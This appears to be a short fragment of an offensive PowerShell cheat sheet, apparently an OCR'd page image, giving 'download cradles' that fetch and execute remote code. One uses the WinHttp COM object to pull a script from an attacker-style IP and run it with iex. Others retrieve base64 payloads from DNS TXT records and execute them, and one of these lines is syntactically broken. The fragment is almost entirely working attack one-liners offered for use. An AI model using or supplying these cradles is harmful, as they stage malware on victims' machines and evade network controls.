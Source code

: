 #### WinHttp COM object (not proxy aware):

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.14.2/code.ps1',$false);$h.send();iex $h.responseText
```

#### DNS download cradle:

```powershell
$m=(-join (resolve-dnsname -type txt txt.domain.here).strings); iex (([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m))))
$z='';$n=1..2;ForEach ($i in $n) { $z += ((resolve-dnsname -type txt $icrapdomain.org).strings) }; iex((System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($z))))
```













